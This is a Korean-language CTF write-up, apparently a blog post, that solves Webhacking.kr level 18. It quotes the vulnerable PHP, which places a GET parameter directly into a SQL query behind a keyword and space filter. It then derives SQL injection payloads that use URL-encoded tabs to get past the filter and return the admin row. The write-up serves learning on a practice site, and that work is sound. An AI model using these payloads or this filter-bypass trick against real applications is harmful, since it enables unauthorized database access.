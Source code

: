 ```yaml
---
layout: post
title: [Webhacking.kr] Level 18
subtitle: Webhacking CTF Problem Solving
categories: Web
tags: [Pentest, Web]
---
```


**본 문제는 [webhacking.kr](https://webhacking.kr)를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/198863390-54e3e418-676d-4e52-8636-c9881cb88667.jpg" width = 360> 
</p>

**SQL INJECTION**이란 타이틀과 우리가 입력한 값을 제출하는 form이 존재하며 결과 값을 출력해주는 것과 같은 **RESULT**가 존재한다.

view-source를 통해 어떠한 로직인지 확인해보겠습니다.

## 문제 풀이

```php
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
```

입력한 값이 `no`라는 변수로 GET 전송을 진행하는 것을 알 수 있고, `preg_match()`를 통해 필터링이 진행되는 것을 알 수 있다.

* **필터링** : `/, \, |, (, ), &, select, from, 0x, 공백` 대소문자 구문 없이 진행

```sql
select id from chall18 where id='guest' and no=$_GET[no]
```

우리가 입력한 값과 `id='guest'`를 **AND** 연산하여 해당 질의가 chall18 table에 존재하면 해당 ID를 `result` 변수에 저장하는 것으로 볼 수 있다.

주석을 보면 **admin's no = 2**라는 힌트를 알 수 있다. 그렇다면 guest의 id는 무엇인지 입력해보겠습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/198864031-df494e3e-2dae-4a34-bc28-cbd5b17a1501.jpg" width = 360> 
</p>

**1**이라는 값을 넣으니 RESULT에 **hi guest**라는 문구가 출력된다.

그렇다면 해당 결과의 id가 admin이면서 입력 값이 2가 되어야 하는데 현재 질의로는 무조건 `guest`로 되어있다.

SQLi를 통해 해당 구문을 강제로 참으로 만들거나, id를 **admin**으로 다시 전송하는 것이 가능할 것으로 보인다.

```sql
where id='guest' and no=$_GET[no] or no=2 -- 참
```

`where id='guest' and no=$_GET[no]`까지는 **0**값을 전송하면 guest의 id가 0이므로 False이지만, **OR** 연산으로 값이 2인 것이 참이 되어 해결될 것이다.

```sql
where id='guest' and no=$_GET[no] or id="admin" and no=2 -- 강제 Admin
```

**OR** 기준으로 앞쪽의 질의를 거짓으로 하고 뒤 질의가 참인 값을 전달한다면 OR로 인해 참이 되어 해결될 것이다.

해당 값을 form에서 입력하게 된다면 URL Ending으로 입력 값이 변환이 되어 실패하게 된다. 

따라서, URL에 직접 입력하는 방식으로 하면 풀리게 될 것이다.

* `0%09or%09no=2`

* `0%09or%09id="admin"%09and%09no=2`